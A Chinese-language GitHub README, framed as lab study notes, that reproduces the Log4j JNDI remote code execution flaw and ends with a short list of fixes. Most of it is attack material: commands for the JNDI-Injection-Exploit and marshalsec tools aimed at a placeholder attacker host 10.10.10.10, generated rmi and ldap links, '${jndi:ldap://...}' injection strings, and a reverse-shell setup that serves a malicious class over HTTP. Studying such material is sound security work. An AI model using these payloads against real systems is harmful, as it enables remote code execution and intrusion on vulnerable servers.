 # 以下都是内网学习打的，仅供学习

## Apache-Log4j的几种复现方式
## 1、使用./tools/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
vps IP 假设为 10.10.10.10
`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc.exe" -A 10.10.10.10`
```
[root@VM_0_16_centos ~]# java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "ping xx.24b5010c.dns.1433.eu.org" -A 10.10.10.10
[ADDRESS] >> 10.10.10.10
[COMMAND] >> ping xx.24b5010c.dns.1433.eu.org
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://10.10.10.10:1099/1ovanh
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://10.10.10.10:1099/kavkt9
ldap://10.10.10.10:1389/kavkt9
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://10.10.10.10:1099/m5m8wo
ldap://10.10.10.10:1389/m5m8wo
```
然后fuzz `${jndi:ldap://10.10.10.10:1389/kavkt9}` 或者 `${jndi:ldap://10.10.10.10:1389/m5m8wo} `


## 2、反弹shell

```
git clone https://github.com/daty2141/Apache-Log4j-Learning.git
cd Apache-Log4j-Learning/src
javac Log4jRCE.java 
python -m http.server --bind 127.0.0.1 8888 
```

```
cd tools
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"
```


最后运行 Hack.java
![](img/2.png)

效果是jdni上收到请求消息
`Send LDAP reference result for dd redirecting to http://127.0.0.1:8888/Log4jRCE.class`


httpserver上未看到请求记录。


![](img/3.png)

## 3.修复方案
1）将Log4j框架升级到最新版本

2）添加jvm启动参数-Dlog4j2.formatMsgNoLookups=true；

3）在应用classpath下添加log4j2.component.properties配置文件，文件内容为log4j2.formatMsgNoLookups=true；

4）JDK使用11.0.1、8u191、7u201、6u211及以上的高版本；
# 以上都是内网学习打的，仅供学习